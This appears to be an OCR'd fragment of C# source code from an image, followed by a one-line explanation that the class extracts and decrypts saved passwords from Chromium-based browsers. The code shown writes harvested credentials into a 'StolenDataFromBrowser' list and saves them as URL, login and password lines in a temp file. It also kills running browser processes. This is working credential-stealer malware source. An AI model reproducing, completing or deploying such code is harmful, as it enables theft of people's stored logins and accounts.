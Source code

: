 ```csharp
                            }
                        }

                        if (File.Exists(Variables.temp + Variables.username + "\\Passwords\\" + nameTxt))
                        {
                            File.Delete(Variables.temp + Variables.username + "\\Passwords\\" + nameTxt);
                        }

                        foreach (StolenDataFromBrowser password in passwords)
                        {
                            content += $"URL: {password.url}\r\nLogin: {password.username}\r\nPassword: {password.password}\r\n\r\n";
                            File.WriteAllText(Variables.temp + Variables.username + "\\Passwords\\" + nameTxt, content);
                        }
                    }
                    isFoundBrowser = $"Found {nameBrowser}!";
                }
                catch (Exception ex)
                {
                    Console.WriteLine(ex.Message + " // " + nameBrowser);
                    isFoundBrowser = ex.Message;
                }
            }

            public static void ProcessBrowserKill(string nameBrowser)
            {
                try
                {
                    Process[] processes = Process.GetProcessesByName(nameBrowser);
                    if (processes.Length > 0)
                    {
                        foreach (Process process in processes)
                        {
                            process.Kill();
                            process.WaitForExit();
                        }
                    }
                }
                catch { }
            }
        }
    }
}
```

This code defines a `ChromiumPasswords` class inside the `Browsers` namespace.

It’s built to **extract and decrypt saved passwords** from Chromium-based browsers (like Chrome, OperaGX, Edge, Vivaldi, etc.).
